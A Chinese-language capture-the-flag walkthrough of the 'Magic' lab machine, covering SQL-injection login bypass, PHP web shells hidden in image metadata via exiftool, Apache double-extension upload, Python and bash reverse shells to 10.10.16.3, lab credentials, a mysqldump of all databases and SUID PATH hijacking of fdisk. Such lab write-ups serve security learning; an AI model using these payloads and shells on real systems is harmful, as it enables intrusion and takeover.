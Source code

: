 ## nmap

![image-20250402171145487](Magic/image-20250402171145487.png)

## dirsearch

![image-20250402171526168](Magic/image-20250402171526168.png)

## 80端口

简单sql注入绕过登录

![image-20250402174635214](Magic/image-20250402174635214.png)

文件只允许上传图片，尝试过后不是前端验证，并且直接传一句话木马也会被识别

![image-20250402174705761](Magic/image-20250402174705761.png)

![image-20250402174820732](Magic/image-20250402174820732.png)

将命令注入正常图片中，生成一个图片马

```shell
exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' sample.png

exiftool poc.jpg -documentname="<?php echo exec(\$_REQUEST['cmd']); ?>"
```

生成的图片马可以成功上传，但是想要让php代码解析就不能以图片格式上传，中间件是apache，可能存在apache解析漏洞，

回到index.php可以看到刚才上传的图片，将文件名改为`shell.php.png`

![image-20250402180902847](Magic/image-20250402180902847.png)

index.php下有图片，可以查看图片的路径，替换为自己上传的文件名即可访问

![image-20250402175104411](Magic/image-20250402175104411.png)

可以命令执行

![image-20250403102239859](Magic/image-20250403102239859.png)

反弹shell

```
10.10.10.185/images/uploads/x.php.png?cmd=python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.16.3",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

![image-20250403111432899](Magic/image-20250403111432899.png)

```
theseus:iamkingtheseus
```

/etc/passwd中也存在用户，但是使用改密码ssh无法连接

该靶机不存在mysql，但是存在mysqldump， mysqldump是对数据库进行备份的一个工具，利用该账号对数据库进行备份，就可以看到数据库中的内容

```
mysqldump -A -u theseus -p  > all_database.sql
```

![image-20250403113338213](Magic/image-20250403113338213.png)

```
admin:Th3s3usW4sK1ng
```

数据库中有admin账号密码，上面bd.php5中的username是`theseus`，这个密码应该就是theseus的密码,利用改密码成功切换到theseus用户

![image-20250403140649661](Magic/image-20250403140649661.png)

## 提权

查看有suid权限的文件，其中有一个/bin/sysinfo，运行后会打印系统信息

![image-20250403142053598](Magic/image-20250403142053598.png)

查看该进程调用的系统库，调用了fdisk这个文件，提权思路就是写一个反弹shell的fdisk让sysinfo来以root权限调用

![image-20250403142255249](Magic/image-20250403142255249.png)

```shell
theseus@magic:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.16.3/4444 0>&1' > fdisk

theseus@magic:/dev/shm$ chmod +x fdisk

theseus@magic:/dev/shm$ export PATH=$PATH:/dev/shm

theseus@magic:/dev/shm$ sysinfo
```

![image-20250403143522212](Magic/image-20250403143522212.png)